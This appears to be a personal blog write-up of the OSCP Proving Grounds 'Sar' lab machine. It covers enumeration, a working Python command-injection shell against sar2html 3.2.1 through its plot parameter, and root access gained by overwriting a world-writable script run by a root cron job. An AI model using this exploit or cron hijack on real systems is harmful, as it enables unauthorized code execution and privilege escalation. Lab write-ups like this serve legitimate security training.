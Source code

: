 ```yaml
---
title: "Proving Grounds (OSCP) - Sar"
date: 2023-04-15T11:42:27+03:00
draft: false
tags: ["oscp"]
---
```



This was a fairly easy machine, I began with a `nmap` scan:

```bash
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

On port 80 there was a blank website, so I fuzz it and found bunch of files.

```
http://192.168.210.35/robots.txt -> http://192.168.210.35/sar2HTML/
http://192.168.210.35/phpinfo.php
```

Using the `phpinfo` I have enumerated the versions

```bash
sar2html Ver 3.2.1 <-- Vulnerable
Linux sar 5.0.0-23-generic #24~18.04.1-Ubuntu SMP Mon Jul 29 16:12:28 UTC 2019 x86_64
Apache/2.4.29
PHP 7.1.32-1+ubuntu18.04.1+deb.sury.org+1
exif 7.1.32-1+ubuntu18.04.1+deb.sury.org+1 - JPEG,TIFF
mysqlnd 5.0.12-dev - 20150407
Net_SFTP_Stream 0.3.2 SFTP Stream Wrapper
```

`sar2html` Was vulnerable to RCE, and I've created a python script to exploit it further.

```python
import bs4
import requests


url = "http://<ip>/sar2HTML/index.php?plot=;"

while True:
    command = input("$ ")
    if command == "exit":
        break
    else:
        response = requests.get(url + command.replace(" ", "%20"))
        html = response.text
        soup = bs4.BeautifulSoup(html, "html.parser")

        sel_tag = soup.find("select", {"class": "select_text"}).children
        for c in sel_tag:
            if c.text == "Select Host":
                continue
            if c.text == "There is no defined host...":
                continue
            print(c.text)
```

Using this script, you can read the `user/local.txt` file to get the first flag. 

I then run the `linpeas` script to check how to privilege escalation, I've noticed that there was a `cron` job that was running on the `*.sh` files in the `/var/www/html` folder:

```bash
*/5  *    * * *   root    cd /var/www/html/ && sudo ./finally.sh
```

`finally.sh` is actually calling `write.sh` which is writable by the `www-data`

```
-rwxrwxrwx 1 www-data www-data    55 Mar  5 15:32 write.sh
```

I've used the following script to get the `root` `proof.txt`

```bash
# write.sh
cat /root/proof.txt > /var/www/html/hash.txt
```

Then I waited `5m` to get the flag, I've done it this way since I got problems setting up the reverse shell, nonetheless I got root.